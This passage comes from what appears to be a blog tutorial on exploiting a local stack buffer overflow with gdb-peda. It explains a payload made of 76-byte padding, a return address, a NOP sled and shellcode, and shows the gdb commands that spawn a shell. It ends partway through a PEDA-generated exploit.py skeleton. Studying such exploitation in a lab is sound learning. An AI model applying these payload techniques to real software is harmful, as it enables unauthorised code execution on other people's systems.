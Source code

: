 it so the payload is broken down as follows
* "A" * 76     - 76 A's (which we found using pattern offset)
* "BBBB"       - This will end up being the return address to our shellcode
* "0x90" * 500 - 500 NOPS which gives us a margin of error with the return
                 address
* shellcode    - Our shellcode string we stored in the variable earlier

Right we currently have one thing left to do, find the address to jump to! When
the program crashed peda displayed a nice view of the stack and it seems to be
filled with our NOPS so we'll pick and address near the bottom and insert it
into our payload
```
  gdb-peda$ pset arg '"A" * 76 + "\x6c\xf4\xff\xbf" + "\x90"*500 + shellcode'
  gdb-peda$ r
  AAAAAAAAAAAAAAAA........
  process 8331 is executing new program: /bin/dash
  $ 
```
Hey presto we have a shell! Why is the address backwards? little endian my
friends! go and google it. One point to note is that peda provides a function
for you to do this so you arg could become
```
  gdb-peda$ pset arg '"A" * 76 + int2hexstr(0xbffff46c) + "\x90"*500 + shellcode'
```

# Weaponize it!
Lets use peda to weaponize this thing! PEDA has some nifty commands to write
exploit skeletons
```
  gdb-peda$ skeleton argv exploit.py
  Writing skeleton code to file "exploit.py"
```
This has generated the following code

{{< highlight python >}}
#!/usr/bin/env python
#
# Template for local argv exploit code, generated by PEDA
#
import os
import sys
import struct
import resource
import time

def usage():
    print "Usage: %s target_program" % sys.argv[0]
    return

def pattern(size=1024, start=0):
    try:
        bytes = open("pattern.txt").read(size+start)
        return bytes[start:]
    except:
        return "A"*size
